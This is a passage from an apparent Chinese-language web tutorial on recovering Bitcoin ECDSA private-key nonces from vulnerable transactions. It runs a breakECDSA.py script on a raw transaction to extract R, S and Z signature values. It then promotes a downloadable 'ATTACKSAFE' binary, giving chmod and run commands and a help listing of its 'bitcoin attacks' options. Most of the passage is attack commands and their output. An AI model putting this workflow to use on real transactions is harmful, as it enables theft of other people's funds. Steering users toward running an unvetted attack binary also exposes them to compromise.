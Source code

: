 

<h2>現在我們需要從所有易受攻擊的交易中獲取所有的 R、S、Z 值</h2>



<p>讓我們使用 breakECDSA.py 腳本</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 0100000001599b576edb0e0bf62082a30ff974d04080bfadb4dd9154f4e8949ea8da4c15182c0000006a4730440220061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff0220649db1b4fbaaba2d0669f7f7635157b273146b064248d04e76c25d41971d99a1012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-33-1024x263.png" alt="實施 Frey-Rück 攻擊以獲得密鑰“K”（NONCE）" class="wp-image-937"/></figure>



<pre class="wp-block-code"><code>R = 0x061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff
S = 0x649db1b4fbaaba2d0669f7f7635157b273146b064248d04e76c25d41971d99a1
Z = 0xb8e936d143c8733bb1ede19146f8725fee1d10bfc19e14452a51cef0cb0014d8</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p><strong></strong><strong><a href="https://attacksafe.ru/software/" target="_blank" rel="noreferrer noopener">為了實施攻擊並獲取密鑰，我們將使用“ATTACKSAFE SOFTWARE”</a></strong><strong>軟件</strong><strong><a href="https://attacksafe.ru/software/" target="_blank" rel="noreferrer noopener"></a></strong></p>



<figure class="wp-block-image"><a href="https://attacksafe.ru/software/" target="_blank" rel="noreferrer noopener"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-14.png" alt="實施 Frey-Rück 攻擊以獲得密鑰“K”（NONCE）" class="wp-image-705"/></a><figcaption class="wp-element-caption"><strong><code>www.attacksafe.ru/software</code></strong></figcaption></figure>



<h2>訪問權限：</h2>



<pre class="wp-block-code"><code>chmod +x attacksafe</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-34.png" alt="實施 Frey-Rück 攻擊以獲得密鑰“K”（NONCE）" class="wp-image-940"/></figure>



<h2>應用：</h2>



<pre class="wp-block-code"><code>./attacksafe -help</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-35.png" alt="實施 Frey-Rück 攻擊以獲得密鑰“K”（NONCE）" class="wp-image-943"/></figure>



<pre class="wp-block-code"><code>  -version:  software version 
  -list:     list of bitcoin attacks
  -tool:     indicate the attack
  -gpu:      enable gpu
  -time:     work timeout
  -server:   server mode
  -port:     server port
  -open:     open file
  -save:     save file
  -search:   vulnerability search
  -stop:     stop at mode
  -max:      maximum quantity in mode
  -min:      minimum quantity per mode
  -speed:    boost speed for mode